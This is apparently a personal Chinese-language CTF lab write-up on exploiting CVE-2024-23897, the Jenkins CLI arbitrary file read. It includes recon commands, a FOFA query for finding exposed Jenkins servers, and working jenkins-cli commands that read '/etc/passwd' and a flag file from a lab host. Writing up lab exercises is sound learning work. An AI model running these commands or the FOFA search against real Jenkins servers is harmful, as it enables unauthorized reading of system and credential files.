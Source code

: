 layout: post
title: "CVE-2024-23897任意文件读取漏洞"
date:   2024-10-11
tags: [靶场]
comments: true
author: VR2050
toc: true

没事儿玩了玩i春秋的免费靶场,i春秋的会员有点贵,所以,就看了看免费的头一个看到的就是CVE-2024-23897

## 靶场介绍

jenkins 2.441及更早版本，以及LTS 2.426.2及更早版本没有禁用其CLI命令解析器的一个功能，该功能会将参数中'@'字符后跟的文件路径替换为该文件的内容，允许未经身份验证的攻击者读取Jenkins控制器文件系统上的任意文件

待会儿搜一艘看看啥漏洞

## 打点

dirsearch 扫了扫:

```bash
dirsearch -u 8.147.132.32:19652
```

没啥有用的信息,扫到个robots.txt,么有啥价值的东西

![1728653021962](images/2024/1728653021962.png)

nmap扫描(开放很多端口,之后再说)

```bash
nmap ip -Pn -A 
```

## 访问网站看看


![1728653423667](images/2024/1728653423667.png)

抓包看看,之后试试爆破(弱口令试了试没用)


之后搜了搜CVE-2024-23897

[可以看看这位大佬的漏洞复现](https://blog.csdn.net/2301_80127209/article/details/139777834?fromshare=blogdetail&sharetype=blogdetail&sharerId=139777834&sharerefer=PC&sharesource=qq_72825267&sharefrom=from_link)

## 介绍

[jenkins](https://so.csdn.net/so/search?q=jenkins&spm=1001.2101.3001.7020)一个开源的、用于方便[代码管理](https://so.csdn.net/so/search?q=%E4%BB%A3%E7%A0%81%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)、部署的基于web的平台，用于提高团队开发效率（生产力）

### 影响版本

版本<= Jenkins 2.441、版本<= LTS 2.426.2

### fofa语法

header="X-Jenkins" || banner="X-Jenkins" || header="X-Hudson" || banner="X-Hudson" || header="X-Required-Permission: hudson.model.Hudson.Read" || banner="X-Required-Permission: hudson.model.Hudson.Read" || body="Jenkins-Agent-Protocols"

## 复现

下载http://url/[jnlpJars/jenkins-cli.jar](http://xxx/jnlpJars/jenkins-cli.jar "http://xxx/jnlpJars/jenkins-cli.jar")(刚才没有扫到(bushi))

```shell
java -jar jenkins-cli.jar -s http://8.147.132.32:19652 -http help 1 "@/etc/passwd"
```

```shell
java -jar jenkins-cli.jar -s http://8.147.132.32:19652 -http help 1 "@/flag" 
```

只能看到一部分不过flag能够看到

![1728654427588](images/2024/1728654427588.png)

## 总结

我在想是不是这样做还不够,光获取flag还不够,还没有拿去到shell,还需要再努力

